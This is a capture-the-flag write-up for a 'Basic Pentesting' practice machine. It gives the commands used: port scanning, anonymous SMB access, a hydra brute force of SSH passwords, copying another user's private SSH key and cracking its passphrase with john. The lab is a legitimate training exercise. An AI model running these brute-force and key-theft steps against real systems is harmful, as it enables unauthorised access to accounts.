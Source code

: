 # [cd ../](../index.md)
# Basic Pentesting
> This is a machine that allows you to practise web app hacking and privilege escalation

# Start
# Recon
## Nmap
[nmap](nmap.txt)  
Open ports:
```
22 - ssh
80 - web (Apache httpd 2.4.18 ((Ubuntu)))
139 - smb
445 - smb
8009 - ajp13 (Apache Jserv (Protocol v1.3))
8080 - Apache Tomcat 9.0.7 default page
```

## Web
![web](web.png)  
**Source**:  
![source](source.png)

## Dirsearch
![dsearch](dsearch.png)  
We got an **interesting dir**

## Enum4linux
[enum4linux](enum4linux.txt)  

- Anonymous login on smb

## Smb
```
smbclient \\\\$IP\\Anonymous

mget staff.txt
```

We got the 2 users!

# SSH
## Cracking ssh pw
```
hydra -t 4 -l <user> -P ~/tools/wordlists/rockyou.txt ssh://$IP
```
![hydra](hydra.png)  
We got the pw!

## Getting in
```
ssh <user>@$IP
```
Just grab the other user2's *id_rsa* from `/home/<user2>/.ssh/id_rsa`  
We notice that this `id_rsa` is **encrypted** so we have to crack it!

### Cracking the id_rsa
We use `john` here...
```
ssh2john id_rsa > hash
john --wordlist=rockyou.txt hash
```
***We got the pw***

## Just ssh in with the id_rsa + the pw we got
```
ssh -i id_rsa <user2>@$IP
```

# Got the final flag from `~/pass.bak`
